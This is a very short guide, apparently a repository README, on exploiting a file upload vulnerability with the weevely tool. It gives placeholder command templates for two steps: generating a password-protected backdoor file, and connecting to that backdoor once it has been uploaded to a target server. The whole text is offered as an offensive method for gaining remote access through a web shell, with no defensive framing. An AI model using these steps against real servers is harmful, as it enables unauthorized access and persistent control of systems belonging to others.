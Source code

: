 this is used to exploit file upload vulnerability by gaining accessed to the system using the backdoor file uploaded on the server



```
Generate payload:
	weevely generate [arb password] [arb (filename or dir/filename)]



Gaining Access:
	weevely [urn means domain/directories/backdoor_file] [arb password set]
```